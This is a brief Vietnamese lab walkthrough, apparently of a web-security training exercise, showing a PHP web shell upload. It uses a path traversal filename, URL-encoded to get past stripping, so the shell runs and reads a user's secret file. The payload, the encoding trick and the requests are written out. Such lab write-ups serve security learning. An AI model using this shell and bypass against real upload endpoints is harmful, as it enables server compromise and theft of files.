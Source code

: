 ## Web shell upload via path traversal

1. Sau khi đăng nhập, upload thử file ``payload.php`` có nội dung
- ```<?php echo file_get_contents('/home/carlos/secret'); ?>```

2. Nhận được thông báo upload thành công, truy cập vào path ``/files/avatars/payload.php`` nhận thấy nội dung file không được thực thi mà ở dạng plain text.

![Img1](\asset/../img/error.png)

3. Gửi request ``POST /my-account/avatar`` vào Burp Repeater thay đổi ``Content-Disposition`` header param ``filename`` thành ``../payload.php``. Gửi request thì thông báo trả về là ``The file avatars/payload.php has been uploaded``. Nhận thấy có vẻ như server đã strip các directory traversal sequence.

4. Mã hóa url các directory traversal sequence thành ``..%2fpayload.php`` rồi gửi lại request thì nhận được thông báo ``The file avatars/../payload.php has been uploaded`` tức ``payload.php`` đã được thêm vào thư mục cha của thư mục ``avatars``.

![Img2](\asset/../img/upload_success.png)

5. Truy cập vào path ``/files/payload.php`` nhận được secret của carlos.